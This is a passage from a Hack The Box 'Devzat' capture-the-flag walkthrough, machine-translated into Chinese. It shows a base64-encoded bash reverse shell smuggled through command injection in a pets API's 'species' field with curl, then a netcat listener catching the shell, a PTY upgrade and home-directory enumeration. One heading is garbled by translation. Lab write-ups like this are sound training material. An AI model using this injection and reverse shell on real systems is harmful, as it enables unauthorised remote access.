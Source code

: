现在切换到正在等待的 netcat 监听器:

```
┌──(root💀kali)-[~/htb/devzat/extracted/0-8274d7a547c0c3854c074579dfc359664082a8f6]
└─# echo -n 'bash -i >& /dev/tcp/10.10.15.40/1337 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40MC8xMzM3IDA+JjE=

┌──(root💀kali)-[~/htb/devzat/extracted/0-8274d7a547c0c3854c074579dfc359664082a8f6]
└─# curl -d '{"name":"pencer","species":"giraffe;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40MC8xMzM3IDA+JjE= | base64 -d | bash"}  ' -X POST http://pets.devzat.htb/api/pet
```

随着 shell 升级到更有用的版本，我快速浏览了一下:

```
┌──(root💀kali)-[~/htb/devzat]
└─# nc -lvvp 1337                              
listening on [any] 1337 ...
connect to [10.10.15.40] from devzat.htb [10.10.11.118] 42062
patrick@devzat:~/pets$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
patrick@devzat:~/pets$ ^Z
zsh: suspended  nc -lvvp 1337
┌──(root💀kali)-[~/htb/devzat]
└─# stty raw -echo; fg
[1]  + continued  nc -lvvp 1337
patrick@devzat:~/pets$
```

# 宋承宪饰演帕特里克

我们看到只有两个用户，并且标志不在 Patrick 的主文件夹中。所以我们可以假设下一步需要上报给凯瑟琳。Patrick 有一个私有的 SSH 密钥，因此我将退出这个反向 shell，以他的身份通过 SSH 登录，以获得更好的连接:

```
patrick@devzat:~/pets$ ls -lsa /home       
4 drwxr-xr-x  5 catherine catherine 4096 Oct 31 20:46 catherine
4 drwxr-xr-x  9 patrick   patrick   4096 Sep 24 14:57 patrick

patrick@devzat:~/pets$ ls -lsa /home/patrick
0 lrwxrwxrwx 1 root    root       9 Jun 22 20:40 .bash_history -> /dev/null
4 -rw-r--r-- 1 patrick patrick  220 Feb 25  2020 .bash_logout
4 -rw-r--r-- 1 patrick patrick 3809 Jun 22 18:43 .bashrc
4 drwx------ 3 patrick patrick 4096 Jun 22 20:17 .cache
4 drwx------ 3 patrick patrick 4096 Jun 23 16:00 .config
4 drwxr-x--- 2 patrick patrick 4096 Sep 23 15:07 devzat
4 -rw-rw-r-- 1 patrick patrick   51 Jun 22 19:52 .gitconfig
4 drwxrwxr-x 3 patrick patrick 4096 Jun 22 18:51 go
4 drwxrwxr-x 4 patrick patrick 4096 Jun 22 18:50 .npm
4 drwxrwx--- 5 patrick patrick 4096 Jun 23 19:05 pets
4 -rw-r--r-- 1 patrick patrick  807 Feb 25  2020 .profile
4 drwxrwxr-x 2 patrick patrick 4096 Sep 29 16:33 .ssh
```
